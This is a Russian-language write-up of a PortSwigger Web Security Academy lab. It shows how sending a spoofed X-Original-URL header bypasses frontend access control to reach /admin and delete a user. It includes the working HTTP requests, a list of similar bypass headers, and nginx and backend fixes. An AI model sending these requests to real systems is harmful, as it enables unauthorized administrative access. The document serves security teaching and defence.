




## Lab: URL-based access control can be circumvented

**Платформа:** PortSwigger Web Security Academy  
**Категория:** Access Control  
**Сложность:** Practitioner  
**Дата:** 2025-07-22  

---

## TL;DR
Фронтенд блокирует прямой доступ к `/admin` но бэкенд фреймворк
читает путь из заголовка `X-Original-URL`. Отправив запрос на `/`
с заголовком `X-Original-URL: /admin` обошла блокировку фронтенда
и получила полный доступ к панели администратора.

---

## Описание уязвимости

Архитектура сайта:

```
Пользователь → [Фронтенд Nginx] → [Бэкенд фреймворк]
                 блокирует /admin    читает X-Original-URL
```

Расхождение между тем что проверяет фронтенд и тем что
обрабатывает бэкенд — классический вектор обхода контроля доступа.

```
Фронтенд проверяет: реальный URL запроса
Бэкенд обрабатывает: URL из заголовка X-Original-URL

Атакующий отправляет GET / с X-Original-URL: /admin
Фронтенд видит / → разрешено → пропускает
Бэкенд видит X-Original-URL: /admin → обрабатывает /admin
```

---

## Разведка

### Шаг 1 — Проверка прямого доступа к /admin

Попробовала открыть `/admin` напрямую — получила блокировку.
Ответ простой и быстрый — признак что блокирует фронтенд
а не бэкенд приложение.

```http
GET /admin HTTP/1.1
→ 403 Forbidden (от фронтенда)
```



### Шаг 2 — Проверка обработки X-Original-URL

Отправила запрос в Burp Repeater.
Изменила URL на `/` и добавила заголовок с несуществующим путём:

```http
GET / HTTP/1.1
Host: LAB-ID.web-security-academy.net
X-Original-URL: /invalid
```

Сервер вернул `404 Not Found` — бэкенд обработал запрос
к `/invalid` и не нашёл такой страницы. Это подтверждает
что бэкенд читает URL из заголовка `X-Original-URL`.



---

## Эксплуатация

### Шаг 3 — Доступ к /admin через заголовок

Изменила значение заголовка на `/admin`:

```http
GET / HTTP/1.1
Host: LAB-ID.web-security-academy.net
X-Original-URL: /admin
```

Фронтенд проверяет реальный URL `/` — разрешён, пропускает.
Бэкенд читает `X-Original-URL: /admin` — возвращает панель администратора.



### Шаг 4 — Удаление carlos

Для удаления carlos нужно отправить запрос на `/admin/delete`
с параметром `username=carlos`.

Параметр нельзя поместить в `X-Original-URL` — бэкенд берёт
параметры из реального URL запроса. Поэтому:

```http
GET /?username=carlos HTTP/1.1
Host: LAB-ID.web-security-academy.net
X-Original-URL: /admin/delete
```

```
Реальный URL: /?username=carlos  → параметр username передаётся
X-Original-URL: /admin/delete    → бэкенд обрабатывает этот путь
Итого: DELETE /admin/delete?username=carlos
```

Пользователь carlos удалён — лаба решена.



---

## Итог

```
GET /admin → 403 (фронтенд блокирует)
         ↓
GET / + X-Original-URL: /invalid → 404 (бэкенд читает заголовок!)
         ↓
GET / + X-Original-URL: /admin → 200 (панель администратора)
         ↓
GET /?username=carlos + X-Original-URL: /admin/delete → carlos удалён
```

### Другие похожие заголовки для обхода

```
X-Original-URL: /admin       ← эта лаба
X-Rewrite-URL: /admin        ← аналог в других фреймворках
X-Forwarded-For: 127.0.0.1  ← имитация локального IP
Host: localhost               ← замена хоста
X-Custom-IP-Authorization: 127.0.0.1
```

Все эксплуатируют одну идею — расхождение между тем
что проверяет фронтенд и тем что обрабатывает бэкенд.

---

## Защита

```nginx
# УЯЗВИМО — фронтенд не удаляет заголовок из входящих запросов:
location / {
    proxy_pass http://backend;
    # X-Original-URL от пользователя проходит на бэкенд!
}

location /admin {
    deny all;
}

# БЕЗОПАСНО — удалять недоверенные заголовки:
location / {
    # Удаляем заголовок от пользователя перед передачей на бэкенд
    proxy_set_header X-Original-URL "";
    proxy_pass http://backend;
}

location /admin {
    deny all;
}
```

```python
# БЕЗОПАСНО — проверять права на бэкенде независимо от URL:
@app.route('/admin')
def admin_panel():
    if not current_user.is_admin:
        abort(403)
    return render_template('admin.html')
# Даже если X-Original-URL обойдёт фронтенд —
# бэкенд сам проверяет права пользователя
```

Дополнительно:
- Никогда не полагаться только на фронтенд для контроля доступа
- Проверять права на бэкенде при каждом запросе
- Удалять или перезаписывать заголовки типа X-Original-URL
  X-Forwarded-For перед передачей на бэкенд
- Считать все заголовки от пользователя ненадёжными